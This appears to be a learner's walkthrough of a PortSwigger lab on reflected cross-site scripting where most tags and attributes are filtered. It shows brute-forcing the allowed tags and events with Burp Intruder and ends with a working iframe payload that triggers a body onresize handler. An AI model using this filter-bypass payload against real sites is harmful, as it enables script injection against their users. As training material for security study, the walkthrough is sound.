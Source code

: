 # Lab: Reflected XSS into HTML context with most tags and attributes blocked
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked

```bash
<img src=0 onerror=alert()>

# Searching that returns "Tag is not allowed".

# So we need to brute force all tags in https://portswigger.net/web-security/cross-site-scripting/cheat-sheet.
```
```bash
# Copy tags to clipboard and use intruder to brute force. <§§> use targets this way.
# body tag gave 200 ok response so we will try it again.

<body onload=alert()>

# This resulted in "Attribute is not allowed" now we need to brute force it.

```
```bash
# <body §§=1> now we need to brute force it this way.
# We got multiple working events we will use onresize.

<body onresize=print()>
# This works when you change size print() works.
# But this lab requires more it want's it to be automated.
```

```bash
# Click to exploit server and change body to this:

<iframe src="https://0a3b008e03aa6234807b357d00af0030.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E"onload=this.style.width='100px'>

# onload will work when page loads and after that it will change the width to activate onresize and our attack.
# onload is executed when the iframe finishes loading.
```
